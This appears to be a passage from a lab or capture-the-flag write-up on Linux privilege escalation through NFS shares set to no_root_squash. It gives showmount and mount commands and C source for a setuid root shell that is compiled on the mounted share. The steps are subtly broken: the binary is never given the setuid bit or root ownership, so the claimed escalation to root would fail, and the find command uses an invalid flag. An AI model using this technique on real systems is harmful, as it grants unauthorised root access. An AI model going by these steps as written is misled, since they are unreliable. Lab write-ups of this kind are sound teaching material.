  - `showmount -e *target ip*` to show mountable shares

 > **3** shares are returned

 ### How many Shares have the "no_root_squash" option enabled?

 > Out of the 3 shares listed in the NFS configuration file, all **3** have the no_root_squash option enabled

### What is the content of the flag7.txt file?

- Mount one of the shares listed in the target's NFS configuration file
    - Can use `showmount -e <target ip>` to list available shares
    - Make a temporary directory on attack machine to mount to
        - `mkdir /tmp/sharedfolder`
    - `mount -o rw <target ip>:/home/ubuntu/sharedfolder /tmp/sharedfolder` to mount network file share to attack machine
        - In this case, "/home/ubuntu/sharedfolder" is one of the directories with *no_root_squash* on the target system
    - `cd /tmp/sharedfolder` to change to the mounted file share
- Create a script that can run as root in the temporary directory on attack machine
    - `vim nfs.c` to create a new C file and begin editing (can replace `vim` with your text editor of choice)

#### Example C Script:

```
#include <stdio.h>
#include <stdlib.h>

int main()
{
        setgid(0);
        setuid(0);
        system("/bin/bash");
        return 0;
}
```

- `gcc nfs.c -o nfs -w` to compile the C script to a file called "nfs"
- This script will also be on the target machine, since "sharedfolder" is mounted from the target machine
- `./nfs` to escalate to root
- `find / -n "flag7.txt"` to search recursively from root directory for flag7 file

> <details><summary><code>cat /home/matt/flag7.txt</code> to get the flag </summary></details>

## Capstone Challenge

### What is the content of the flag1.txt file?

#### Try common privilege escalation vectors
